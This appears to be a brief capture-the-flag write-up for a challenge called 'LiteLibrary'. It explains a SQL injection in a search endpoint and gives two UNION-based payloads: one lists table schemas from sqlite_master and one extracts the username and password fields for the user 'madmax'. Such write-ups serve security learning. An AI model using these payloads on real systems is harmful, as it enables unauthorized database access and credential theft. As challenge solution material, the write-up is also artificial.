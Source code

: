 # LiteLibrary Solution

The `/api/search?q=query` endpoint seems to be vulnerable to SQL Injection.

We can get list all table names from the `sqlite_master` table. As we can see only one result, we use `group_concat()`:

```
1337' UNION SELECT group_concat(sql), NULL, NULL, NULL, NULL FROM sqlite_master--
```

Get data for the hinted user "madmax":

```
1337' UNION SELECT liteId, liteUsername, gender, liteNick, litePass FROM USERS WHERE liteUsername LIKE 'madmax%25'--
```

`%25` is `%` after URL encoding.
